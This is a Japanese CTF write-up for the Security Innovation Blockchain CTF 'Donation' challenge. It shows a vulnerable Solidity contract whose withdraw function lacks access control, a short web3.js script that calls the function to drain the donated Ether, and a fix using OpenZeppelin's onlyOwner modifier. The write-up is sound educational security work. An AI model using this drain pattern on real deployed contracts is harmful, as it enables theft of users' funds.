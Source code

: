 +++
title = "[Security Innovation Blockchain CTF] Donation"
date = "2022-05-11"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Donation](https://blockchain-ctf.securityinnovation.com/#/game/0)という問題を解きました。

#### 問題

問題を開くと、寄付をするためのアプリケーションであることが分かります。

Donate 0.1 Ether!をクリックするとMetaMaskが起動し、0.1 Etherが寄付されます。

<img src=./dapps.png><br>

このアプリケーションのソースコードとして、以下のSolidityファイルが渡されます。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract Donation is CtfFramework{

    using SafeMath for uint256;

    uint256 public funds;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        funds = funds.add(msg.value);
    }

    function() external payable ctf{
        funds = funds.add(msg.value);
    }

    function withdrawDonationsFromTheSuckersWhoFellForIt() external ctf{
        msg.sender.transfer(funds);
        funds = 0;
    }

}
```

コードを読んでみると、`withdrawDonationsFromTheSuckersWhoFellForIt`という関数があるのが分かります。

この関数は、`msg.sender`に今まで寄付された`funds`を送信する関数で、呼び出し可能なユーザーに制限がありません。

そのため、この関数を呼び出すことで、今まで寄付されたEthereumを引き出すことが可能になります。

#### エクスプロイト

デプロイされたコントラクトの呼び出しには、[MyCrypto](https://mycrypto.com)などが利用できますが、
今回はあえて[web3.js](https://web3js.readthedocs.io/en/v1.7.3/)を使って書いてみます。

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0xaa51c14d9ff94ee5a5674ee0af8257f1665956f3')

// withdrawDonationsFromTheSuckersWhoFellForIt関数の呼び出し
const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
contract.methods.withdrawDonationsFromTheSuckersWhoFellForIt().send(option)
```

#### どう実装されているべきか

今回の問題は、コントラクトのオーナーのみが利用できるべき機能が、誰でも呼び出し可能になってしまっていることに問題があります。
そのため、コントラクト側でオーナーか否かの判定を入れれば良いことになります。

SolidityにはOpenZeppelinというライブラリがあり、
このライブラリには[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)というコントラクトがあります。

以下のように、`onlyOwner`という`modifier`をつけることで、デプロイしたオーナーのみが関数を呼び出せるように制限することが可能です。

詳細はドキュメントを参照してください。

https://docs.openzeppelin.com/contracts/2.x/access-control

```solidity
import "@openzeppelin/contracts/ownership/Ownable.sol";

contract A is Ownable {
    function somethingSecret() public onlyOwner {
        // オーナーからの呼び出しのみを許可
    }
}
```
